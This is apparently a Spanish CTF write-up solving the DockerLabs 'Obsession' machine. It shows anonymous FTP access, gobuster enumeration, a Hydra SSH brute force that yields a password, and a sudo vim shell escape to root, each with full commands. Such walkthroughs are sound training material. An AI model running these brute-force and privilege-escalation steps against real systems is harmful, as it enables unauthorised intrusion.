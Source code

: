 
# Máquina Obsession

![inicio](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/inicioObsession.png)


Esta sin duda ha sido una máquina muy interesante, con varias cosas por analizar. Su nombre lo dice todo: *Obsession*. Vamos a ello.

## Escaneo de puertos

Comenzamos con un escaneo utilizando `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -sV -vvv -n -Pn 172.17.0.2
```

Los resultados muestran tres puertos abiertos:
- **21 (FTP)**
- **22 (SSH)**
- **80 (HTTP)**

Vamos a investigar qué encontramos en el puerto 21.

## Exploración en FTP

Nos conectamos al servicio FTP con las siguientes credenciales:

```bash
ftp 172.17.0.2
```

Usamos `anonymous` como usuario y contraseña:

```text
Usuario: anonymous
Contraseña: anonymous
```

Una vez dentro, listamos los archivos con:

```bash
ls
```

Aparecen dos archivos:
- `chat-gonza.txt`
- `pendientes.txt`

Descargamos ambos con:

```bash
mget *.txt
```

Ahora revisamos su contenido:

```bash
cat chat-gonza.txt
cat pendientes.txt
```

![ftp](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/descargaFTPObsession.png)



El primer archivo contiene una conversación extraña. En `pendientes.txt` se menciona que deben cambiar algunas configuraciones porque no son seguras. Seguimos investigando.

## Exploración en el puerto 80 (HTTP)

Accedemos al puerto 80 y encontramos una página web relacionada con informática y entrenamiento en el gimnasio. 


![web](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/webObsession.png)
![web](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/web2Obsession.png)


Para descubrir más archivos ocultos, usamos `Gobuster`:

```bash
gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak,html
```

El escaneo nos revela varios directorios, pero dos destacan:
- **/backup**
- **/important**

En **important** encontramos un documento titulado *MANIFESTO HACKER*. Interesante, pero seguimos con **backup**.

En este directorio descubrimos un usuario: `russoski`. Ahora vamos a intentar obtener su contraseña.

## Ataque de fuerza bruta con Hydra

Usamos `Hydra` para realizar un ataque de fuerza bruta sobre el servicio SSH:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Obtenemos la contraseña: **iloveme**.

## Acceso por SSH

Nos conectamos con las credenciales obtenidas:

```bash
ssh russoski@172.17.0.2
```

Una vez dentro, verificamos los privilegios con:

```bash
sudo -l
```

Vemos que `vim` se puede ejecutar con privilegios elevados. Buscamos en GTFOBins y encontramos una forma de escalar privilegios:

```bash
sudo vim -c ':!/bin/sh'
```

Ejecutamos el comando y obtenemos acceso como **root**. Confirmamos con:

```bash
whoami
```

Ahora tenemos control total sobre la máquina.

Esta máquina fue bastante entretenida y nos permitió practicar varias técnicas:
- Uso de *nmap* para reconocimiento
- Enumeración de archivos en *FTP*
- Fuerza bruta con *Hydra*
- Escalada de privilegios con *VIM*

También hay algunos archivos interesantes por revisar, como una imagen de Tesla y el GitHub del creador de la máquina. Si no la has intentado aún, te recomiendo hacerlo.


⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.**
---

**En mi pagina web (Blog) subo las maquinas más a detalle, normalmento lo hago primero alla por quien guste puede checarlo de aquel lado tambien.** 

https://elyoxsecurity.com/category/maquinas/


Hasta la próxima, hackers.


